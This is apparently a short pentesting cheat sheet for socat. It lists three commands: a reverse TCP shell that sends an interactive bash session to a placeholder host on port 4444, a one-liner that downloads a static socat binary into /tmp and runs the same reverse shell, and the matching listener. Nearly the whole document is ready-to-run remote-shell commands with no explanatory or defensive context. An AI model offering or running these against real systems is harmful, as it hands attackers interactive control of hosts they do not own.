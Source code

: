 # Socat

## Reverse TCP

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:xx.x.x.x:4444

## Reverse TCP ( Download and execute )

wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:xx.x.x.x:4444

## Listener

socat file:`tty`,raw,echo=0 tcp-listen:4444

